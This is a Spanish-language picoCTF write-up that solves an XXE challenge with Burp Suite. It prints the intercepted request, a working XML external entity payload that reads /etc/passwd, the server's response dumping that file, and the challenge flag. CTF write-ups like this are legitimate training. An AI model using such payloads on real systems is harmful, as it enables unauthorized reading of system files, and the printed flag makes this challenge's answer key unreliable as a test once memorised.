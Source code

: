 Descripción
	The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? [Web Portal](http://saturn.picoctf.net:52152/)
	
Solución
	
		para esta solución tuve que iniciar el un proxy con la aplicación BurpSuite y la extensión FoxyProxy para interceptar peticiones, ya que la pista decía "XML external entity Injection" la cual, es una vulnerabilidad de los sitios web en la que tu creas una entidad y la apuntas hacia algún archivo del proyecto aunque no esté en la página web como tal. Desde burpsuit, intercepté una petición POST la cual tenía la siguiente información:
	
	POST /data HTTP/1.1
	Host: saturn.picoctf.net:64596
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
	Accept: */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br
	Referer: http://saturn.picoctf.net:64596/
	Content-Type: application/xml
	Content-Length: 61
	Origin: http://saturn.picoctf.net:64596
	Connection: keep-alive
	Priority: u=0
	
	<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>
	
	la mandé al Repeater de BurpSuite para modificar esa petición creando una entidad xee que apunte al archivo etc/passwd de esta manera:
	
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xee SYSTEM "file:///etc/passwd"> ]>
	<data>
	<ID>
		&xee;
	</ID></data>
	
	la repuesta del servidor fue esta:
	
	HTTP/1.1 200 OK
	Server: Werkzeug/2.3.6 Python/3.8.10
	Date: Mon, 29 Sep 2025 01:53:59 GMT
	Content-Type: text/html; charset=utf-8
	Content-Length: 1025
	Connection: close
	
	Invalid ID: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin flask:x:999:999::/app:/bin/sh picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}
	
Notas adicionales
	
	
Referencias
	
	